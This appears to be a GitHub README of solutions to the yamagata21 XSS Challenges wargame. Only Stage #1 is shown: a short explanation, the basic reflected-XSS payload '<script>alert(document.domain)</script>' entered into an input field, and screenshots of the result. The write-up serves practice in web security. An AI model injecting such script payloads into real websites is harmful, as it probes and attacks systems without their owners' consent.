 # Yamagata21-XSS-Challenges-Solutions
This repo contains my solutions to the XSS Challenges (by yamagata21).

## Stage #1

This is understandably the easiest stage of this game. 

Simply enter this payload in the input field: 

    <script>alert(document.domain)</script>

<p align="center">
<img width="626" height="346" alt="image" src="https://github.com/user-attachments/assets/28b7d4da-4689-4cfc-8041-5a62e5a22a1a" />
</p>

<p align="center">
<img width="1791" height="383" alt="image" src="https://github.com/user-attachments/assets/3e8d20d6-ed81-410c-9c6f-eb7ccc86c752" />
</p>


<p align="center">
<img width="616" height="396" alt="image" src="https://github.com/user-attachments/assets/738b3311-57b6-43b8-bde8-51a0aaf9d9fb" />
</p>
